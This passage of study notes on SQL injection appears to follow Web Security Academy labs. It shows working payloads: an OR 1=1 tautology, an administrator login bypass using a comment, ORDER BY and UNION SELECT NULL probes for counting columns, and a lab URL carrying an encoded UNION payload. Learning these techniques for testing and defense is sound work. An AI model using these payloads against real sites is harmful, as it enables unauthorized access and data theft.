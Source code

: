 `https://insecure-website.com/products?category=Gifts'+OR+1=1--`

### **Subverting application logic**

Regular:

`SELECT * FROM users WHERE username = 'John' AND password = 'Doe'`

Modified:

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`` `**`//username = administrator'-- | password = <empty string>`**

### **SQL injection UNION attacks**

For a `UNION` query to work, two key requirements must be met:

* The individual queries must return the same number of columns.
* The data types in each column must be compatible between the individual queries.

To determine the number of columns required (to be submitted within the `WHERE` clause of the original query):

`' ORDER BY 1--`&#x20;

`' ORDER BY 2--`&#x20;

`' ORDER BY 3--`&#x20;

`.....`

**OR**

`' UNION SELECT NULL--`&#x20;

`' UNION SELECT NULL,NULL--`&#x20;

`' UNION SELECT NULL,NULL,NULL--`

`.....`

If you get an error for either one and then you'll know how many columns there are.

Regular:

`https://acad1f5f1ebf0bbfc0bd07d0009f009f.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories`

Modified:

`https://acad1f5f1ebf0bbfc0bd07d0009f009f.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20UNION%20SELECT%20NULL,NULL,NULL--`

### **Finding columns with a useful data type in an SQL injection UNION attack**

**Replace 'a' with string you are looking for:**

`' UNION SELECT 'a',NULL,NULL,NULL--`&#x20;

`' UNION SELECT NULL,'a',NULL,NULL--`&#x20;
